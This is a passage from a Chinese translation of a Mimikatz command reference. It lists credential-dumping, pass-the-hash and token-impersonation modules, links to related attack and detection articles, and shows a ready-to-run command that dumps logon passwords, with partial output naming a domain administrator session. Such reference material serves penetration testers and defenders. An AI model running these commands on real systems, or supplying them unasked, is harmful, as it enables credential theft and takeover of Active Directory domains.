 *   [SEKURLSA::Kerberos](https://adsecurity.org/?page_id=1821#SEKURLSAKerberos)– 列出所有已通过认证的用户的 Kerberos 凭证（包括服务帐户和计算机帐户）
*   [SEKURLSA::Krbtgt](https://adsecurity.org/?page_id=1821#SEKURLSAKrbtgt)– 获取域中 Kerberos 服务帐户（KRBTGT）的密码数据
*   [SEKURLSA::LogonPasswords](https://adsecurity.org/?page_id=1821#SEKURLSALogonPasswords)– 列出所有可用的提供者的凭据。这个命令通常会显示最近登录过的用户和最近登录过的计算机的凭证。
*   [SEKURLSA::Pth](https://adsecurity.org/?page_id=1821#SEKURLSAPth)– Hash 传递 和 Key 传递（注：Over-Pass-the-Hash 的实际过程就是传递了相关的 Key(s)）
*   [SEKURLSA::Tickets](https://adsecurity.org/?page_id=1821#SEKURLSATickets)– 列出最近所有已经过身份验证的用户的可用的 Kerberos 票证，包括使用用户帐户的上下文运行的服务和本地计算机在 AD 中的计算机帐户。与**kerberos::list**不同的是 sekurlsa 使用内存读取的方式，它不会受到密钥导出的限制。
*   [TOKEN::List](https://adsecurity.org/?page_id=1821#TOKENList)– 列出系统中的所有令牌
*   [TOKEN::Elevate](https://adsecurity.org/?page_id=1821#TOKENElevate)– 假冒令牌。用于提升权限至 SYSTEM 权限（默认情况下）或者是发现计算机中的域管理员的令牌。
*   [TOKEN::Elevate /domainadmin](https://adsecurity.org/?page_id=1821#TOKENElevate)– 假冒一个拥有域管理员凭证的令牌。

0x03 ADSecurity 中与 Mimikatz 相关的文章
=================================

* * *

所有提及到 Mimikatz 的文章：[ADSecurity.org Mimikatz Posts](https://adsecurity.org/?tag=mimikatz)

*   [Mimikatz and Active Directory Kerberos Attacks](https://adsecurity.org/?p=556)
*   [Dump Clear-Text Passwords for All Admins in the Domain Using Mimikatz DCSync](https://adsecurity.org/?p=2053)
*   [How Attackers Use Kerberos Silver Tickets to Exploit Systems](https://adsecurity.org/?p=2011)
*   [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)
*   [Sneaky Active Directory Persistence #12: Malicious Security Support Provider (SSP)](https://adsecurity.org/?p=1760)
*   [Sneaky Active Directory Persistence #11: Directory Service Restore Mode (DSRM)](https://adsecurity.org/?p=1714)
*   [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
*   [It’s All About Trust – Forging Kerberos Trust Tickets to Spoof Access across Active Directory Trusts](https://adsecurity.org/?p=1588)
*   [Detecting Mimikatz Use](https://adsecurity.org/?p=1567)

0x04 Mimikatz 命令指南
==================

* * *

Mimikatz 可以在交互模式中运行，只需运行 “Mimikatz.exe” 即可或传递命令并退出（例如：'`Mimikatz “Kerberos::list” exit`'）。Invoke-Mimikatz 没有交互模式。

Mimikatz 可以在命令行中传递多个命令，这在使用 Invoke-Mimikatz 或者是在脚本文件中使用 Mimikatz 时非常有用。

追加的 “exit” 是 Mimikatz 执行的最后一个命令，这能够使 Mimikatz 自动退出。

```
PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

.#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Nov 13 2015 00:44:32)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
 '#####'                                     with 17 modules * * */

mimikatz(commandline) # privilege::debug
 Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 646260 (00000000:0009dc74)
 Session           : RemoteInteractive from 2
 User Name         : adsadministrator
```